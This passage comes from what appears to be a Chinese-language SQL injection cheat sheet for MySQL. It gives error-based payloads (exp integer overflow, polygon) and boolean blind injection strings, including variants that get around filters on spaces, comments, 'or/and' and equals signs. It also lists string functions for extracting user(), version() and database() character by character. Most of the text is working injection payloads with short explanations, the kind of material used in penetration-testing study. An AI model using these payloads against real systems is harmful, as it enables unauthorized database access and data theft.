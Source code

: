 

**2.6 exp**

```sql
id=1 and (select exp(~(select * from(select user())x)))
```

解释：

1、先查询 select user() 这里面的语句，将这里面查询出来的数据作为一个结果集 取名为 a
2、然后 再 select * from a 查询a ,将 结果集a 全部查询出来
这里必须使用嵌套，因为不使用嵌套
不加select*from 无法大整数溢出

**2.7 polygon**

```sql
select *from user where username='' and polygon(username);

ERROR 1367 (22007): Illegal non geometric '`user`.`user`.`username`' value found during parsing
```



## BOOL盲注

```sql
select * from user where username='admin' and (select substr(version(),1,1)=5);
```

```sql
//正常情况
'or bool#
true'and bool#
    
//不使用空格、注释
'or(bool)='1
true'and(bool)='1
    
//不使用or、and、注释
'^!(bool)='1
'=(bool)='
'||(bool)='1
true'%26%26(bool)='1
'=if((bool),1,0)='0
    
//不使用等号、空格、注释
'or(bool)<>'0
'or((bool)in(1))or'0
    
//其他
or (case when (bool) then 1 else 0 end)
```

**3.1构造逻辑判断**

```sql
left(user(),1)>'r' #从左边开始第一位，1代表长度
right(user(),1)>'r' #从右边开始第一位，但当大于2时，字符串不是倒序，是原先的顺序
substr(user(),1,1)='r' #切割字符串，第一位是开始位置，第二位是长度，位置从1开始
mid(user(),1,1)='r' #切割字符串，和substr一样
greatest("a",database()); #返回最大值在与字符串比较
least("b",database()); #返回最小值再与字符串比较


user() regexp '^[a-z]'
user() like 'root%' //注意%通配符，建议写脚本的时候时候写到字符集最后面
POSITION('root' in user())
mid(user() from 1 for 1)='r'
mid(user() from 1)='r'
```